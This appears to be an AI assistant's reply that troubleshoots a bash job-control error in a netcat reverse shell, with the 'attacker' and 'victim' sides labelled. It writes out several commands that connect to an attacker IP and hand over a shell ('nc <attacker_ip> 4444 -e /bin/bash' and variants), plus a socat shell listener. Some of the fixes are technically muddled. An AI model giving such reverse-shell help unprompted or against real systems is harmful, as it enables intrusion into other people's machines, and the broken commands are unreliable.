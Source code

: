 The error message you are seeing:

```
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
```

occurs because `bash` is trying to manage terminal job control, but `nc` (netcat) doesn't allocate a terminal for the shell in the way that a typical interactive session would. In this context, when you run `nc` in "listening" mode (`nc -lvnp 4444`), it opens a socket and listens for incoming connections. However, it doesn't create a proper terminal session for the shell you're spawning (in this case, `bash`).

This issue typically happens in environments where you are trying to establish an interactive session via `netcat`, but `bash` is expecting a controlling terminal, which isn't available.

### Solutions

#### 1. **Using `bash` with `-i` for an Interactive Shell**
You can force `bash` to run interactively by using the `-i` flag, which will enable job control even though the shell isn't connected to a terminal.

On the **attacker**/client side, this would look like:

```bash
nc -lvnp 4444
```

And on the **victim**/target side, you would adjust the `bash` invocation to be interactive by adding the `-i` flag:

```bash
nc <attacker_ip> 4444 -e /bin/bash -i
```

The `-i` flag tells `bash` to treat the shell as an interactive one, and it should resolve the `Inappropriate ioctl for device` issue.

#### 2. **Avoiding the Use of `bash` in a Container**
Another option is to use a non-interactive shell or command that doesn't attempt job control. Instead of `bash`, you could use `sh` (which doesn't require a controlling terminal):

```bash
nc <attacker_ip> 4444 -e /bin/sh
```

This will avoid the `bash` job control issues because `sh` does not expect a terminal for job management.

#### 3. **Using `socat` as an Alternative to `nc`**
In some cases, `socat` (a more versatile tool) can be used instead of `nc`, which might avoid terminal issues:

```bash
socat TCP4-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
```

This setup with `socat` might behave more predictably with shell spawning in containerized environments.

#### 4. **Disabling Job Control in Bash**
If you still prefer to use `bash`, you can run `bash` with job control disabled by using the `+m` option to disable job control, or simply by running a non-interactive shell. For example:

```bash
nc <attacker_ip> 4444 -e /bin/bash -c 'set +m; exec /bin/bash'
```

Here, `set +m` disables job control inside the shell, and `exec /bin/bash` runs `bash` without trying to manage terminal processes.

---

### Conclusion
To fix the `bash: cannot set terminal process group` error in a Dockerized environment:

1. **Use `bash -i`** on the target side to ensure it runs interactively.
2. Alternatively, use `sh` instead of `bash` for non-interactive shells.
3. Consider using **`socat`** if `nc` doesn't work well in your specific setup.

Let me know if you need further clarification!